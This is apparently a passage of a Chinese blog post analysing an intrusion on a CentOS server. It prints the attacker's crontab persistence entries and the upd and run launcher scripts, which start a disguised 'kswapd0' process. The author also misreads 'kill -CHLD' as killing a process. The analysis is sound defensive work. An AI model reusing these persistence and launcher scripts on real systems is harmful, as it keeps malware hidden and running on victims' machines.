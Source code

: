 >/proc/pid/cmdline 进程启动命令
/proc/pid/cwd 链接到进程当前工作目录
/proc/pid/environ 进程环境变量列表
/proc/pid/exe 链接到进程的执行命令文件
/proc/pid/fd 包含进程相关的所有的文件描述符
/proc/pid/maps 与进程相关的内存映射信息
/proc/pid/mem 指代进程持有的内存,不可读
/proc/pid/root 链接到进程的根目录
/proc/pid/stat 进程的状态
/proc/pid/statm 进程使用的内存的状态
/proc/pid/status 进程状态信息,比stat/statm更具可读性
/proc/self 链接到当前正在运行的进程

<br>
### 2.2.4 在cj用户下查看定时任务 `crontab -l`
```
[cj@VM-0-13-centos ~]$ crontab -l
1 1 */2 * * /home/cj/.configrc/a/upd>/dev/null 2>&1
@reboot /home/cj/.configrc/a/upd>/dev/null 2>&1
5 8 * * 0 /home/cj/.configrc/b/sync>/dev/null 2>&1
@reboot /home/cj/.configrc/b/sync>/dev/null 2>&1  
0 0 */3 * * /tmp/.X25-unix/.rsync/c/aptitude>/dev/null 2>&1
```
还给我起了好多定时启动和重启启动的脚本。

#### 2.2.4.1 查看 /home/cj/.configrc/a/ 目录
**看一下upd脚本**
```
#!/bin/sh
cd /home/cj/.configrc/a
  if test -r /home/cj/.configrc/a/bash.pid; then
    pid=$(cat /home/cj/.configrc/a/bash.pid)
    if $(kill -CHLD $pid >/dev/null 2>&1); then
      exit 0
  fi
fi
./run &>/dev/null
```
>在脚本中检查了bash.pid是否存在且可读，如果存在读取该pid并杀死进程，如果杀死成功，则退出脚本，否则执行run脚本；
**bash.pid文件作用：**1. pid文件的内容：pid文件为文本文件，内容只有一行, 记录了该进程的ID。用cat命令可以看到。2. pid文件的作用：防止进程启动多个副本。只有获得pid文件(固定路径固定文件名)写入权限(F_WRLCK)的进程才能正常启动并把自身的PID写入该文件中。其它同一个程序的多余进程则自动退出。

<br>
**查看下run脚本**
```
#!/bin/bash
./stop
./init0
sleep 10
pwd > dir.dir
dir=$(cat dir.dir)
ARCH=`uname -m`
        if [ "$ARCH" == "i686" ]; then
                nohup ./anacron >>/dev/null &
        elif [ "$ARCH" == "x86_64" ];   then
                ./kswapd0
        fi
echo $! > bash.pid
```
>如果硬件类型是“i686”的话，就启动./anacron脚本；如果是“x86_64”的话，就启动万恶的kswapd0脚本。

